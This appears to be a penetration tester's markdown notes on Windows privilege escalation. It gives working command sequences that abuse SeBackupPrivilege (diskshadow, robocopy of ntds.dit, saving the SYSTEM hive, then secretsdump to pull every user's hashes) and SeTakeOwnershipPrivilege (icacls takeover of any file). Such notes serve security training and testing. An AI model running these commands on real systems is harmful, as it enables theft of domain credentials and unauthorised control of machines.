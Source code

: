 ## usually you just find services worth exploiting and then exploit them do priv esc but for a reference and as a compilation of my past experiences here is the notes
- first enumerate and gather all info
- using winpeas look for files/folders owned by system and we also have perms to read/write or execute refer to winpeas docs for the full form of codes displayed by winpeas over files/folders
- we can leverage services which create proccess with system privs and hence get a system shell

## If we need to enable all privs listed in a cmd shell session then we can follow these tweets and repos
https://twitter.com/0gtweet/status/1479813175046516738?t=x-BDnA-QT9hQ2eIbEw4P8g&s=19 and https://github.com/gtworek/PSBits/tree/master/EnableAllParentPrivileges

## escalation through certain privs
### SeBackupPrivilege and SeRestorePrivilege
If we have these 2 privs then what we can do is, we can create a backup of the C drive into some other drive of our choice(E drive here), this will also result in forming the backup of the C:\windows\ntds which we can use along with the master key extracted from system registry hive to decrypt the ntds file to get hashes of all users on that machine.
This can be done by 1st copying this into a txt file
```
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
and then using diskshadow to create a shadow copy(backup) of ther C drive via `diskshadow /s FILENAME.txt` FILENAME being the filename of the above txt file. Now our shadow copy is ready. Now we will use robocopy to copy the ntds from the E drive to our working directory via `robocopy /b E:\Windows\ntds . ntds.dit`. Now we have a copy of ntds, and are in need of the master key which needs the system registery hive, which can by saved via `reg save hklm\system "FULL PATH\system"` now we will transfer the ntds.dit file and system save file to our kali machine and use secretsdump's LOCAL mode to decrypt the ntds via `secretsdump.py LOCAL -ntds "PATH TO NTDS FILE" -system "PATH TO SYSTEM FILE"`

### SeTakeOwnershipPrivilege
Using this priv, we can simply take ownership of any file we want access to, and by taking ownership, we have full control over the object. We can take ownership of any object using icacls via 1st `icacls "FILENAME" /setowner "USERNAME"` and then `icacls "FILE NAME" /grant "USERNAME":F`

